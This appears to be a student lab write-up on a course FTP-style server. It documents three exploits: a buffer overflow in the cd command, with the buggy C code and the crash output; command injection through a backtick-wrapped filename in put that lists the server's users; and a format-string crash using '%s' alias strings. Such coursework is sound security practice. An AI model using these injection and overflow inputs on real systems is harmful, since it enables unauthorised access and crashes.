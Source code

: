 ## Team1

### Buffer overflow

* Giving a long path to the CD command will overflow the path buffer. The code as it is, is trying to set an invalid array positon. The only catch is that, the directory which we want to cd into, should exist.

```C
char path[128];
// check size limitations
size_t len = strlen(current);
strncpy(path, current, len);
path[128] = '\0';
```
```
Server output:
 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
mc08 56 $ 

```
### Command injection

* The put comand creates a file by using the '>' operator. We can thus inject commands in the filename

Getting back a list of all usernames on the server:
```
mc08 124 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
put `users` 4
open(): No such file or directory
put port: 64049
Attempting to transfer file before put call
mc08 125 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
-rw-r----- 1 njaganna njaganna 0 Mar 18 12:00 achiraya chou63 chou63 njaganna njaganna wei253 wu1220

```
### Format string

* All the alias commands are run using Popen. Before this, they are all printed to the stderr of the server using fprintf.
```C
std::string msg("=== Running subprocess: " + cmd);
fprintf(stderr, msg.c_str());
```
If the alias would have taken user input, this would have been exploitable. As this is not implemented, we can use the put command to overwrite the conf file as directory structure is not implemented. If the server restarts, this new conf file will be read and the exploit will work.
```
Server:

 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: echo
Segmentation fault (core dumped)

Client:

[i] Connecting to 127.0.0.1:3490
login n
pass 1
echo
[!] Disconnected from server
mc02 75 $

Sploit.conf: 
alias echo echo %s%s%s%s%s%s%s%s%s%s%s%s%s%s
```

### Design bugs

* None of the alias commands take parameters.
* No directory structure


